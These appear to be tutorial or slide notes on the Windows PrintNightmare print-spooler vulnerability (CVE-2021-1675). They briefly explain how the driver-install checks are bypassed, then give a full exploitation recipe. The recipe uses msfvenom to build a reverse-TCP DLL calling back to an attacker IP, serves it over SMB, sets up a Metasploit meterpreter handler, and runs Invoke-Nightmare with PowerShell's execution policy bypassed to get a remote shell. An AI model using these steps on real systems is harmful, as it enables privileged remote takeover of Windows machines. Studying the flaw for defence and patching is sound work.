


Two vulns are triggered by the PrintSpoolerService RPC method
The AddPrinterDriverEx function installs local/remote printer drivers and links config, data and driver files

When printer driver is added, the DLL is loaded with highest permission

Use Process monitor to capture exploit when DLL is loaded
dwFileCopyFlags check is skipped when calling YAddPrinterDriverEx method
ValidateObjectAccess result is 0 for user and 1 for admin
v12 will be set to 0 and ValidateObjectAccess is bypassed
This skips further verification by driver
v13 determines 5th param of the CreateInternalDriverFileArray
When a5 is 0, validity check of the driver can be avoided
Using MoveNewDriverRelatedFiles, move files and realize the update file
Setup exploit DLL
msfvenom -p /path/to/reverse_tcp LHOST=[YOUR_IP] LPORT=4545 -f dll -o reverse_tcp.dll
Execute DLL
smbserver.py share [YOUR_EXPLOIT_DLL_LOCATION] -smb2support msfconsole use exploit/multi/handler set payload windows/x64/meterpreter/reverse_tcp set LHOST [YOUR_IP] set LPORT 4545 run -j
DLL Injection
powershell -ep bypass ..\CVE-2021-1675.ps1 Invoke-Nightmare -DLL C:\Users\test\Desktop\reverse_tcp.dll # go back to msfconsole session -i 1